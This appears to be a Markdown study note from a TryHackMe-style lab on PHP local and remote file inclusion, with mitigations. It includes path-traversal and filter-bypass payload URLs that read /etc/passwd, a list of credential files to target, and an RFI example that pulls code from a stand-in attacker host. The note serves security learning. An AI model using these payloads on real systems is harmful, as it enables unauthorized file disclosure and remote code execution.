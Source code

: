 # File Inclusion Vulnerabilities

## 🔍 Overview
- File Inclusion vulnerabilities allow attackers to include files, usually through the web browser.
- Two main types:
  - Local File Inclusion (LFI): Include files already on the server.
  - Remote File Inclusion (RFI): Include files from remote locations.
- Can also exploit Directory Traversal to access sensitive files outside the web root.

## 🧩 Why File Inclusion Happens
- Caused by unsanitized user input in file handling functions (e.g., include, require, file_get_contents).
- Often found in PHP and similar languages when input is not validated.

## ⚠️ Risks
- Read sensitive files like /etc/passwd.
- Leak credentials or system information.
- Gain Remote Code Execution (RCE) when combined with write access or RFI.
- Expose SSH keys, mail, logs, etc.

## 🔐 Common Targeted OS Files
| File                          | Description                                    |
|------------------------------|------------------------------------------------|
| /etc/passwd                  | User account info                              |
| /etc/shadow                  | Password hashes                                |
| /var/log/apache2/access.log  | Web server logs                                |
| /proc/version                | Kernel version info                            |
| C:\boot.ini                 | Boot config on Windows                         |


## 🧪 Types of File Inclusion Exploits

### Local File Inclusion (LFI)
1. Basic LFI (No Directory Constraints)
<?php 
    include($_GET["lang"]);
?>
PoC:
http://webapp.thm/index.php?lang=/etc/passwd

2. LFI with Directory Restriction
<?php 
    include("languages/" . $_GET['lang']); 
?>
PoC:
http://webapp.thm/index.php?lang=../../../../etc/passwd

3. Black Box Testing with Error Disclosure
Error Hint:
include(languages/THM.php);
PoC (Path Traversal):
http://webapp.thm/index.php?lang=../../../../etc/passwd
PoC with Null Byte (for older PHP < 5.3.4):
http://webapp.thm/index.php?lang=../../../../etc/passwd%00

4. Bypassing Filters (Keyword Filtering)
Tricks:
- Use /etc/passwd/. (current directory trick)
- Use /etc/passwd%00 (null byte)
- Replace ../ with ....// as PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass
- Eg: http://webapp.thm/index.php?lang=....//....//etc/passwd

5. Forced Directory Prefix
PoC:
http://webapp.thm/index.php?lang=languages/../../../../etc/passwd

### Remote File Inclusion (RFI)
- Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.
- The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

#### How it works
The attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message Hello THM, <?PHP echo "Hello THM"; ?>

- First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. 
- If there is no input validation, then the malicious URL passes into the include function. 
- Next, the web app server will send a GET request to the malicious server to fetch the file. 
- As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

## 🛡️ Mitigations
- Sanitize and validate all user input.
- Disable allow_url_fopen, allow_url_include.
- Use whitelisting for allowed files/paths.
- Keep PHP and frameworks up to date.
- Turn off verbose error messages in production.
- Deploy a Web Application Firewall (WAF).

